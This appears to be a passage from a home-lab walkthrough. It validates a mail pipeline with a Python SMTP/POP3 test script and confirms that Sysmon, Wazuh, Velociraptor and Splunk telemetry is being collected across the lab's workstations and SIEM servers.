# Keep the validation record on persistent external storage.
LOG_DIRECTORY = pathlib.Path(r"E:\01 Scripts\02 Health Checks\Windows\Mail-Demo-Results")
# Fail if the accepted message does not reach disk within this interval.
DELIVERY_TIMEOUT_SECONDS = 30
def verify_pop3_listener() -> str:
"""Verify that hMailServer answers on POP3 without sending a credential."""
# Open a short-lived POP3 connection to collect the server greeting.
pop = poplib.POP3(MAIL_HOST, POP3_PORT, timeout=10)
try:
# Decode the greeting safely even if it contains a non-ASCII byte.
return pop.getwelcome().decode("ascii", errors="replace")
finally:
# Close the POP3 session even when banner decoding fails.
pop.quit()
def find_delivered_message(run_id: str, started_utc: dt.datetime) -> dict | None:
"""Ask SRV01 to locate the exact run-tagged message in its local mail store."""
# Convert the search floor to an ISO UTC value PowerShell can parse.
after = started_utc.isoformat().replace("+00:00", "Z")
# Build a read-only PowerShell query that returns one matching file as JSON.
powershell = rf"""
$ErrorActionPreference = 'Stop'
$after = [DateTime]::Parse('{after}').ToUniversalTime()
$match = Get-ChildItem -LiteralPath '{REMOTE_DATA_ROOT}' -Recurse -File |
Where-Object {{ $_.LastWriteTimeUtc -ge $after }} |
Where-Object {{ Select-String -LiteralPath $_.FullName -SimpleMatch -Quiet -Pattern '{run_id}' }} |
Sort-Object LastWriteTimeUtc -Descending |
Select-Object -First 1
if ($null -eq $match) {{ exit 3 }}
$hash = Get-FileHash -LiteralPath $match.FullName -Algorithm SHA256
[pscustomobject]@{{
FullName = $match.FullName
Length = $match.Length
LastWriteTimeUtc = $match.LastWriteTimeUtc.ToString('o')
SHA256 = $hash.Hash
}} | ConvertTo-Json -Compress
"""
# Encode the Windows PowerShell command as UTF-16LE, as -EncodedCommand expects.
encoded = base64.b64encode(powershell.encode("utf-16le")).decode("ascii")
# Construct an SSH command that rejects prompts and unknown host-key changes.
command = [
"ssh.exe",
"-o", "BatchMode=yes",
"-o", "StrictHostKeyChecking=yes",
"-o", "ConnectTimeout=8",
REMOTE_TARGET,
f"powershell.exe -NoProfile -NonInteractive -EncodedCommand {encoded}",
]
# Execute the remote read-only lookup with a client-side timeout.
result = subprocess.run(command, capture_output=True, text=True, timeout=15, check=False)
# Treat exit code 3 as a normal polling miss rather than a hard failure.
if result.returncode == 3:
return None
# Surface any other SSH or PowerShell failure with its diagnostic text.
if result.returncode != 0:
detail = result.stderr.strip() or result.stdout.strip()
raise RuntimeError(f"SRV01 delivery check failed: {detail}")
# Ignore SSH noise and retain the JSON object emitted by PowerShell.
json_lines = [line for line in result.stdout.splitlines() if line.startswith("{")]
# Reject a successful exit that did not return the promised structure.
if not json_lines:
raise RuntimeError("SRV01 delivery check returned no JSON result.")
# Return the newest matching file's metadata to the caller.
return json.loads(json_lines[-1])
def run_mail_demo() -> pathlib.Path:
"""Submit one message and prove that hMailServer stored that exact message."""
# Start the file search slightly early to tolerate timestamp granularity.
started_utc = dt.datetime.now(dt.timezone.utc) - dt.timedelta(seconds=2)
# Generate the correlation value embedded in the message and evidence filename.
run_id = f"MAIL-{dt.datetime.now(dt.timezone.utc):%Y%m%dT%H%M%SZ}-{uuid.uuid4().hex[:8]}"
# Make the run identifier visible in the message subject.
subject = f"[LAB] Mail pipeline validation {run_id}"
# Create a standards-compliant message object.
message = EmailMessage()
# Populate the envelope-visible and message-visible addressing fields.
message["From"] = SENDER
message["To"] = RECIPIENT
# Add correlation and time headers for later evidence matching.
message["Subject"] = subject
message["Date"] = email.utils.format_datetime(dt.datetime.now(dt.timezone.utc))
message["Message-ID"] = email.utils.make_msgid(domain="corp.local")
message["X-Lab-Run-ID"] = run_id
# Add a harmless body that states the test's purpose.
message.set_content(
"This is an authorized FakeCorp lab message used to validate the "
"SMTP delivery path.\n"
)
# Submit the message without authenticating to the isolated SMTP listener.
with smtplib.SMTP(MAIL_HOST, SMTP_PORT, timeout=10) as smtp:
# Negotiate the server's ESMTP or SMTP capabilities.
smtp.ehlo_or_helo_if_needed()
# Record any recipients that the server rejects.
refused = smtp.send_message(message)
# Fail when hMailServer refuses one or more recipients.
if refused:
raise RuntimeError(f"SMTP refused recipient(s): {sorted(refused)}")
# Poll SRV01 until the exact run-tagged message appears or the deadline expires.
delivered = None
deadline = time.monotonic() + DELIVERY_TIMEOUT_SECONDS
while time.monotonic() < deadline:
delivered = find_delivered_message(run_id, started_utc)
# Stop polling as soon as the server returns the matching file metadata.
if delivered is not None:
break
# Avoid repeatedly querying SRV01 without a delay.
time.sleep(2)
# Distinguish SMTP acceptance from proved server-side delivery.
if delivered is None:
raise TimeoutError(
f"SMTP accepted {run_id}, but the message did not appear in the "
f"hMailServer data store within {DELIVERY_TIMEOUT_SECONDS} seconds."
)
# Verify the independent POP3 listener and prepare the evidence destination.
pop3_banner = verify_pop3_listener()
LOG_DIRECTORY.mkdir(parents=True, exist_ok=True)
# Tie the evidence filename to the same unique message identifier.
log_path = LOG_DIRECTORY / f"Mail-Demo-{run_id}.txt"
# Record endpoints, delivery metadata, and the server-side file hash.
log_lines = [
"FakeCorp mail pipeline validation: PASS",
f"Run ID: {run_id}",
f"UTC completed: {dt.datetime.now(dt.timezone.utc).isoformat()}",
f"SMTP endpoint: {MAIL_HOST}:{SMTP_PORT}",
f"POP3 endpoint: {MAIL_HOST}:{POP3_PORT}",
f"POP3 banner: {pop3_banner}",
f"Sender: {SENDER}",
f"Recipient: {RECIPIENT}",
f"Delivered bytes: {delivered['Length']}",
f"Delivered UTC: {delivered['LastWriteTimeUtc']}",
f"Delivered file: {delivered['FullName']}",
f"Delivered SHA-256: {delivered['SHA256']}",
"Credentials transmitted or logged: no",
]
# Write one durable UTF-8 record and return its path.
log_path.write_text("\n".join(log_lines) + "\n", encoding="utf-8")
return log_path
def main() -> int:
"""Run the check, print the evidence record, and return a process exit code."""
try:
# Execute the end-to-end mail validation.
log_path = run_mail_demo()
except (OSError, poplib.error_proto, smtplib.SMTPException, RuntimeError) as exc:
# Print a concise failure record suitable for terminal evidence.
print(f"FakeCorp mail pipeline validation: FAIL\n{type(exc).__name__}: {exc}")
return 1
# Echo the durable evidence record and its path for the operator.
print(log_path.read_text(encoding="utf-8"), end="")
print(f"Evidence log: {log_path}")
return 0
# Convert the main function's return value into the process exit status.
if __name__ == "__main__":
raise SystemExit(main())
FakeCorp mail pipeline validation: PASS
Run ID: MAIL-20260909T070434Z-74d80099
UTC completed: 2026-09-09T07:04:38.554001+00:00
SMTP endpoint: 10.10.10.12:25
POP3 endpoint: 10.10.10.12:110
POP3 banner: +OK POP3
Sender: walkthrough@corp.local
Recipient: pvance@fakecorp.local
Delivered bytes: 621
Delivered UTC: 2026-09-09T07:04:34.6840432Z
Delivered file: C:\Program Files (x86)\hMailServer\Data\fakecorp.local\pvance\55\{550273C3-4AFF-4F49-9E72-6EB5AFA62C44}.eml
Delivered SHA-256: A7F8282A4CE6886E95A836E0CA506FBD320ED0BFB969AD8C99D60E25AC79D959
Credentials transmitted or logged: no
Evidence log: E:\01 Scripts\02 Health Checks\Windows\Mail-Demo-Results\Mail-Demo-MAIL-20260909T070434Z-74d80099.txt
Endpoint telemetry
Finally, I check the same defensive services that run on DC01:
# Confirm that Sysmon, Wazuh, and Velociraptor are running on SRV01.
Get-Service -Name @('Sysmon64', 'WazuhSvc', 'Velociraptor') |
Select-Object Name, Status
Name Status
---- ------
Sysmon64 Running
Velociraptor Running
WazuhSvc Running
The shared services are available and observable. I now move to the two Windows workstations to verify the endpoint telemetry that feeds the detection stack.
WS01
Host identity and Sysmon
The physical hosts, domain controller, and member server are accounted for. WS01 is the first Windows 11 endpoint. It serves primarily as a reference endpoint and negative control; if an experiment changes WS02 unexpectedly, I can compare it with WS01.
# Print the workstation hostname.
hostname
# Confirm the workstation's domain membership and member-workstation role.
Get-CimInstance Win32_ComputerSystem |
Select-Object Name, Domain, DomainRole
WS01
Name Domain DomainRole
---- ------ ----------
WS01 corp.local 1
# Confirm that Sysmon is running and configured for automatic startup.
Get-Service -Name Sysmon64 |
Select-Object Name, Status, StartType
# Print the active Sysmon configuration.
& 'C:\Windows\Sysmon64.exe' -c
Name Status StartType
---- ------ ---------
Sysmon64 Running Automatic
System Monitor v15.20 - System activity monitor
By Mark Russinovich and Thomas Garnier
Copyright (C) 2014-2026 Microsoft Corporation
Using libxml2. libxml2 is Copyright (C) 1998-2012 Daniel Veillard. All Rights Reserved.
Sysinternals - www.sysinternals.com
Current configuration:
- Service name: Sysmon64
- Driver name: SysmonDrv
- Config file: C:\WINDOWS\SystemTemp\sysmonconfig-export.xml
- Config hash: SHA256=055FEBC600E6D7448CDF3812307275912927A62B1F94D0D933B64B294BC87162
- HashingAlgorithms: MD5,SHA256,IMPHASH
- Network connection: enabled
- Archive Directory: -
- Image loading: disabled
- CRL checking: enabled
- DNS lookup: enabled
Sysmon supplies process creation, network connection, DNS, and other endpoint evidence used by Wazuh.
To confirm that Sysmon is recording events, I generate a simple ping process and retrieve the latest process-creation event:
# Launch one short-lived process to create fresh Sysmon process telemetry.
& ping.exe -n 1 10.10.10.11 | Out-Null
# Retrieve the newest Sysmon process-creation event and show its timestamp and image path.
$ProcessEventFilter = @{LogName='Microsoft-Windows-Sysmon/Operational'; Id=1}
Get-WinEvent -FilterHashtable $ProcessEventFilter -MaxEvents 1 |
Select-Object TimeCreated, @{N='Image';E={$_.Properties[4].Value}}
TimeCreated Image
----------- -----
9/8/2026 1:50:21 PM C:\Windows\System32\PING.EXE
Next, I retrieve the network-connection records:
# Retrieve the five newest Sysmon network-connection events with their complete messages.
$NetworkEventFilter = @{LogName='Microsoft-Windows-Sysmon/Operational'; Id=3}
Get-WinEvent -FilterHashtable $NetworkEventFilter -MaxEvents 5 |
Select-Object TimeCreated, Message |
Format-List
TimeCreated : 9/8/2026 10:22:05 AM
Message : Network connection detected:
RuleName: SSH
UtcTime: 2026-09-08 17:22:03.176
ProcessGuid: {74a4dd39-cd2f-6a9e-4600-000000003000}
ProcessId: 3276
Image: C:\Windows\System32\OpenSSH\sshd.exe
User: NT AUTHORITY\SYSTEM
Protocol: tcp
Initiated: false
SourceIsIpv6: false
SourceIp: 10.10.10.10
SourceHostname: CORP
SourcePort: 63386
SourcePortName: -
DestinationIsIpv6: false
DestinationIp: 10.10.10.21
DestinationHostname: WS01.corp.local
DestinationPort: 22
DestinationPortName: ssh
TimeCreated : 9/8/2026 10:21:33 AM
Message : Network connection detected:
RuleName: SSH
UtcTime: 2026-09-08 17:21:31.136
ProcessGuid: {74a4dd39-cd2f-6a9e-4600-000000003000}
ProcessId: 3276
Image: C:\Windows\System32\OpenSSH\sshd.exe
User: NT AUTHORITY\SYSTEM
Protocol: tcp
Initiated: false
SourceIsIpv6: false
SourceIp: 10.10.10.10
SourceHostname: CORP
SourcePort: 55163
SourcePortName: -
DestinationIsIpv6: false
DestinationIp: 10.10.10.21
DestinationHostname: WS01.corp.local
DestinationPort: 22
DestinationPortName: ssh
TimeCreated : 9/8/2026 10:18:03 AM
Message : Network connection detected:
RuleName: SSH
UtcTime: 2026-09-08 17:18:01.469
ProcessGuid: {74a4dd39-cd2f-6a9e-4600-000000003000}
ProcessId: 3276
Image: C:\Windows\System32\OpenSSH\sshd.exe
User: NT AUTHORITY\SYSTEM
Protocol: tcp
Initiated: false
SourceIsIpv6: false
SourceIp: 10.10.10.10
SourceHostname: CORP
SourcePort: 59458
SourcePortName: -
DestinationIsIpv6: false
DestinationIp: 10.10.10.21
DestinationHostname: WS01.corp.local
DestinationPort: 22
DestinationPortName: ssh
TimeCreated : 9/8/2026 10:17:06 AM
Message : Network connection detected:
RuleName: SSH
UtcTime: 2026-09-08 17:17:03.663
ProcessGuid: {74a4dd39-cd2f-6a9e-4600-000000003000}
ProcessId: 3276
Image: C:\Windows\System32\OpenSSH\sshd.exe
User: NT AUTHORITY\SYSTEM
Protocol: tcp
Initiated: false
SourceIsIpv6: false
SourceIp: 10.10.10.10
SourceHostname: CORP
SourcePort: 52174
SourcePortName: -
DestinationIsIpv6: false
DestinationIp: 10.10.10.21
DestinationHostname: WS01.corp.local
DestinationPort: 22
DestinationPortName: ssh
TimeCreated : 9/8/2026 8:56:16 AM
Message : Network connection detected:
RuleName: SSH
UtcTime: 2026-09-08 15:56:15.627
ProcessGuid: {74a4dd39-cd2f-6a9e-4600-000000003000}
ProcessId: 3276
Image: C:\Windows\System32\OpenSSH\sshd.exe
User: NT AUTHORITY\SYSTEM
Protocol: tcp
Initiated: false
SourceIsIpv6: false
SourceIp: 10.10.10.30
SourceHostname: -
SourcePort: 53546
SourcePortName: -
DestinationIsIpv6: false
DestinationIp: 10.10.10.21
DestinationHostname: WS01.corp.local
DestinationPort: 22
DestinationPortName: ssh
Network configuration and agents
Confirm that WS01 uses DC01 as its primary DNS server:
# Show the IPv4 DNS servers assigned to each network interface.
Get-DnsClientServerAddress -AddressFamily 'IPv4' |
Select-Object InterfaceAlias, ServerAddresses
InterfaceAlias ServerAddresses
-------------- ---------------
Ethernet1 {10.10.10.11}
Loopback Pseudo-Interface 1 {}
For the final WS01 check, Wazuh carries endpoint events to SIEM01, while Velociraptor provides an independent host-collection path:
# Confirm that the Wazuh and Velociraptor endpoint agents are running automatically.
Get-Service -Name @('WazuhSvc', 'Velociraptor') |
Select-Object Name, Status, StartType
Name Status StartType
---- ------ ---------
Velociraptor Running Automatic
WazuhSvc Running Automatic
WS02
Host identity and Sysmon
WS02 is where I run most controlled Windows 11 attacks. It serves as the detonation and lateral-movement endpoint.
# Print the workstation hostname.
hostname
# Confirm the workstation's domain membership and member-workstation role.
Get-CimInstance Win32_ComputerSystem |
Select-Object Name, Domain, DomainRole
WS02
Name Domain DomainRole
---- ------ ----------
WS02 corp.local 1
# Confirm that Sysmon is running and configured for automatic startup.
Get-Service -Name Sysmon64 |
Select-Object Name, Status, StartType
# Print the active Sysmon configuration.
& 'C:\Windows\Sysmon64.exe' -c
Name Status StartType
---- ------ ---------
Sysmon64 Running Automatic
System Monitor v15.20 - System activity monitor
By Mark Russinovich and Thomas Garnier
Copyright (C) 2014-2026 Microsoft Corporation
Using libxml2. libxml2 is Copyright (C) 1998-2012 Daniel Veillard. All Rights Reserved.
Sysinternals - www.sysinternals.com
Current configuration:
- Service name: Sysmon64
- Driver name: SysmonDrv
- Config file: C:\ProgramData\smbase.xml
- Config hash: SHA256=055FEBC600E6D7448CDF3812307275912927A62B1F94D0D933B64B294BC87162
- HashingAlgorithms: MD5,SHA256,IMPHASH
- Network connection: enabled
- Archive Directory: -
- Image loading: disabled
- CRL checking: enabled
- DNS lookup: enabled
As on WS01, I generate a simple process and retrieve the newest Sysmon process-creation event:
# Launch one short-lived process to create fresh Sysmon process telemetry.
& ping.exe -n 1 10.10.10.11 | Out-Null
# Retrieve the newest Sysmon process-creation event and show its timestamp and image path.
$ProcessEventFilter = @{LogName='Microsoft-Windows-Sysmon/Operational'; Id=1}
Get-WinEvent -FilterHashtable $ProcessEventFilter -MaxEvents 1 |
Select-Object TimeCreated, @{N='Image';E={$_.Properties[4].Value}}
TimeCreated Image
----------- -----
9/8/2026 1:56:36 PM C:\Windows\System32\PING.EXE
Next, I retrieve the network-connection records:
# Retrieve the five newest Sysmon network-connection events with their complete messages.
$NetworkEventFilter = @{LogName='Microsoft-Windows-Sysmon/Operational'; Id=3}
Get-WinEvent -FilterHashtable $NetworkEventFilter -MaxEvents 5 |
Select-Object TimeCreated, Message |
Format-List
TimeCreated : 9/8/2026 10:22:06 AM
Message : Network connection detected:
RuleName: SSH
UtcTime: 2026-09-08 17:22:03.215
ProcessGuid: {337b76be-cd2d-6a9e-4400-000000001d00}
ProcessId: 3248
Image: C:\Windows\System32\OpenSSH\sshd.exe
User: NT AUTHORITY\SYSTEM
Protocol: tcp
Initiated: false
SourceIsIpv6: false
SourceIp: 10.10.10.10
SourceHostname: CORP
SourcePort: 63387
SourcePortName: -
DestinationIsIpv6: false
DestinationIp: 10.10.10.22
DestinationHostname: WS02.corp.local
DestinationPort: 22
DestinationPortName: ssh
TimeCreated : 9/8/2026 10:21:34 AM
Message : Network connection detected:
RuleName: SSH
UtcTime: 2026-09-08 17:21:31.351
ProcessGuid: {337b76be-cd2d-6a9e-4400-000000001d00}
ProcessId: 3248
Image: C:\Windows\System32\OpenSSH\sshd.exe
User: NT AUTHORITY\SYSTEM
Protocol: tcp
Initiated: false
SourceIsIpv6: false
SourceIp: 10.10.10.10
SourceHostname: CORP
SourcePort: 55164
SourcePortName: -
DestinationIsIpv6: false
DestinationIp: 10.10.10.22
DestinationHostname: WS02.corp.local
DestinationPort: 22
DestinationPortName: ssh
TimeCreated : 9/8/2026 10:18:06 AM
Message : Network connection detected:
RuleName: SSH
UtcTime: 2026-09-08 17:18:02.799
ProcessGuid: {337b76be-cd2d-6a9e-4400-000000001d00}
ProcessId: 3248
Image: C:\Windows\System32\OpenSSH\sshd.exe
User: NT AUTHORITY\SYSTEM
Protocol: tcp
Initiated: false
SourceIsIpv6: false
SourceIp: 10.10.10.10
SourceHostname: CORP
SourcePort: 59461
SourcePortName: -
DestinationIsIpv6: false
DestinationIp: 10.10.10.22
DestinationHostname: WS02.corp.local
DestinationPort: 22
DestinationPortName: ssh
TimeCreated : 9/8/2026 10:17:09 AM
Message : Network connection detected:
RuleName: SSH
UtcTime: 2026-09-08 17:17:05.282
ProcessGuid: {337b76be-cd2d-6a9e-4400-000000001d00}
ProcessId: 3248
Image: C:\Windows\System32\OpenSSH\sshd.exe
User: NT AUTHORITY\SYSTEM
Protocol: tcp
Initiated: false
SourceIsIpv6: false
SourceIp: 10.10.10.10
SourceHostname: CORP
SourcePort: 52177
SourcePortName: -
DestinationIsIpv6: false
DestinationIp: 10.10.10.22
DestinationHostname: WS02.corp.local
DestinationPort: 22
DestinationPortName: ssh
TimeCreated : 9/8/2026 8:56:17 AM
Message : Network connection detected:
RuleName: SSH
UtcTime: 2026-09-08 15:56:14.377
ProcessGuid: {337b76be-cd2d-6a9e-4400-000000001d00}
ProcessId: 3248
Image: C:\Windows\System32\OpenSSH\sshd.exe
User: NT AUTHORITY\SYSTEM
Protocol: tcp
Initiated: false
SourceIsIpv6: false
SourceIp: 10.10.10.30
SourceHostname: -
SourcePort: 53480
SourcePortName: -
DestinationIsIpv6: false
DestinationIp: 10.10.10.22
DestinationHostname: WS02.corp.local
DestinationPort: 22
DestinationPortName: ssh
Network configuration and agents
Confirm that WS02 uses DC01 as its primary DNS server:
# Show the IPv4 DNS servers assigned to each network interface.
Get-DnsClientServerAddress -AddressFamily 'IPv4' |
Select-Object InterfaceAlias, ServerAddresses
InterfaceAlias ServerAddresses
-------------- ---------------
Ethernet1 {10.10.10.11}
Loopback Pseudo-Interface 1 {}
Finally, I check the defensive services:
# Confirm that the Wazuh and Velociraptor endpoint agents are running automatically.
Get-Service -Name @('WazuhSvc', 'Velociraptor') |
Select-Object Name, Status, StartType
Name Status StartType
---- ------ ---------
Velociraptor Running Automatic
WazuhSvc Running Automatic
Both endpoints are producing local evidence and their collection agents are running. The next step is to prove that the central detection systems receive and expose that evidence.
SIEM01
Platform health
The walkthrough now moves to the defensive layer. SIEM01 hosts Wazuh, Velociraptor, and a Splunk forwarder. It's the busiest single point of failure in the estate.
# Print the Linux host, operating-system, kernel, and virtualization identity.
hostnamectl
Static hostname: siem01
Icon name: computer-vm
Chassis: vm 🖴
Chassis Asset Tag: No Asset Tag
Machine ID: 2a10102d1856420c8adb8d7ab33321f3
Boot ID: f2efc935409e4142b9a2dff7a239ebe4
AF_VSOCK CID: 2868040584
Virtualization: vmware
Operating System: Ubuntu 26.04 LTS
Kernel: Linux 7.0.0-30-generic
Architecture: x86-64
Hardware Vendor: VMware, Inc.
Hardware Model: VMware Virtual Platform
Hardware Version: None
Firmware Version: 6.00
Firmware Date: Tue 2026-02-17
Firmware Age: 6month 3w
With the host identity recorded, I check whether the Wazuh components are running:
# Return one active/inactive state for each core Wazuh component.
systemctl is-active wazuh-manager wazuh-indexer wazuh-dashboard filebeat
active
active
active
active
Wazuh telemetry
Which agents are active?
# List the Wazuh manager's enrolled agents and their current connection states.
sudo /var/ossec/bin/agent_control -l
Wazuh agent_control. List of available agents:
ID: 000, Name: siem01 (server), IP: 127.0.0.1, Active/Local
ID: 001, Name: DC01, IP: any, Active
ID: 002, Name: WS01, IP: any, Active
ID: 003, Name: SRV01, IP: any, Active
ID: 004, Name: WS02, IP: any, Active
ID: 005, Name: siem02, IP: any, Active
In the Wazuh dashboard, I check WS01's latest process-creation events:
agent.name:WS01 and data.win.system.eventID:1

I then filter for all Sysmon events from SRV01:
rule.groups:sysmon and agent.name:SRV01

I also query the raw Wazuh alert file for the five most recent records:
# Read the five newest Wazuh JSON alerts and reduce each record to four investigation fields.
sudo tail -n 5 /var/ossec/logs/alerts/alerts.json |
jq -c '{ts:.timestamp, agent:.agent.name, rule:.rule.id, desc:.rule.description}'
{"ts":"2026-09-08T23:47:51.012-0700","agent":"siem01","rule":"52000","desc":"Apparmor messages grouped."}
{"ts":"2026-09-08T23:47:59.015-0700","agent":"siem01","rule":"52000","desc":"Apparmor messages grouped."}
{"ts":"2026-09-08T23:48:01.015-0700","agent":"siem01","rule":"52000","desc":"Apparmor messages grouped."}
{"ts":"2026-09-08T23:48:09.018-0700","agent":"siem01","rule":"52000","desc":"Apparmor messages grouped."}
{"ts":"2026-09-08T23:48:09.509-0700","agent":"DC01","rule":"60137","desc":"Windows User Logoff"}
Velociraptor listeners
I confirm that the Velociraptor frontend and GUI are listening, then use the dashboard to view the processes currently active on WS01:
# List TCP listeners and retain the Velociraptor frontend and GUI ports.
ss -lntp | grep -E ':8000|:8889'
LISTEN 0 4096 *:8000 *:*
LISTEN 0 4096 *:8889 *:*

This Python script reads the alert file line by line, keeps alerts whose rule ID falls in the custom RMM range, and prints the newest match as clean JSON. I will reuse it during the later RMM exercise:
Latest RMM alert
# Parse one JSON object per Wazuh alert line.
import json
# Represent the alert log as a filesystem path.
import pathlib
# Point to Wazuh's newline-delimited alert store.
alerts = pathlib.Path("/var/ossec/logs/alerts/alerts.json")
# Retain the newest matching record encountered during the forward scan.
latest_match = None
# Stream the file so large alert histories do not have to be loaded into memory.
with alerts.open("r", encoding="utf-8", errors="replace") as alert_stream:
# Examine each newline-delimited JSON record in chronological file order.
for line in alert_stream:
try:
# Decode the current alert.
alert = json.loads(line)
except json.JSONDecodeError:
# Skip a malformed or partially written line without hiding other errors.
continue
# Read the rule identifier defensively because not every record has the same shape.
rule_id = str(alert.get("rule", {}).get("id", ""))
# Keep alerts in the lab's reserved RMM rule range.
if rule_id.isdigit() and 100210 <= int(rule_id) <= 100259:
latest_match = alert
# Print the newest matching alert in a compact evidence-oriented shape.
if latest_match is not None:
# Reach the Windows event-data object without assuming every intermediate key exists.
event_data = latest_match.get("data", {}).get("win", {}).get("eventdata", {})
# Select the fields needed to identify and investigate the alert.
summary = {
"ts": latest_match.get("timestamp"),
"agent": latest_match.get("agent", {}).get("name"),
"rule": latest_match.get("rule", {}).get("id"),
"desc": latest_match.get("rule", {}).get("description"),
"image": event_data.get("image"),
}
# Render the selected fields as readable JSON.
print(json.dumps(summary, indent=2))
else:
# Explain how to generate a record when the range has not appeared yet.
print("no RMM-range (100210-100259) alert found yet; run the capstone detonation first")
no RMM-range (100210-100259) alert found yet; run the capstone detonation first
Wazuh and Velociraptor confirm collection at SIEM01. SIEM02 provides the second analytics view and makes it possible to compare current Wazuh state with indexed history.
SIEM02
Platform and receiver health
Wazuh shows whether a rule matched in current telemetry. The Splunk instance supports longer-term aggregation and risk analysis across many alerts. Splunk runs through its non-root splunk service account, so the status command is wrapped in runuser. The splunkd is running message and helper-process IDs establish the base service state.
# Print SIEM02's operating-system, kernel, and virtualization identity.
hostnamectl
# Ask Splunk to report its daemon and helper-process status as the service account.
sudo runuser -u splunk -- /opt/splunk/bin/splunk status
Static hostname: siem02
Icon name: computer-vm
Chassis: vm 🖴
Chassis Asset Tag: No Asset Tag
Machine ID: c56c2233934c4988b1243a3db53dbe32
Boot ID: 30ac29c61e004faba9d0d605379de52c
Product UUID: fcf64d56-61e3-e403-0267-48b069fd36e6
AF_VSOCK CID: 1778202342
Virtualization: vmware
Operating System: Ubuntu 26.04 LTS
Kernel: Linux 7.0.0-30-generic
Architecture: x86-64
Hardware Vendor: VMware, Inc.
Hardware Model: VMware Virtual Platform
Hardware Serial: VMware-56 4d f6 fc e3 61 03 e4-02 67 48 b0 69 fd 36 e6
Hardware Version: None
Firmware Version: 6.00
Firmware Date: Tue 2026-02-17
Firmware Age: 6month 3w
splunkd is running (PID: 442607).
splunk helpers are running (PIDs: 442776 443164 443168 443289 443300 452340).
Port 9997 is Splunk's receiving port, where SIEM01's forwarder sends.
# Confirm that Splunk is listening for forwarder traffic on TCP 9997.
ss -lntp | grep ':9997'
LISTEN 0 128 0.0.0.0:9997 0.0.0.0:* users:(("splunkd",pid=442607,fd=70))
Splunk searches
In the Splunk dashboard, I view a per-endpoint count of alerts indexed in the last day and when each was last seen:
index=wazuh-alerts earliest=-24h
| stats count, latest(_time) as last by agent.name
| eval last=strftime(last,"%F %T")
| sort -count
Here, the first line limits the data to the Wazuh index and the last 24 hours. stats groups the count and newest timestamp by agent, eval formats that timestamp, and sort places the noisiest agent first.

I then chart the same data as a time series to show when each host was noisy. timechart span=1h creates one-hour buckets.
index=wazuh-alerts earliest=-24h
| timechart span=1h count by agent.name
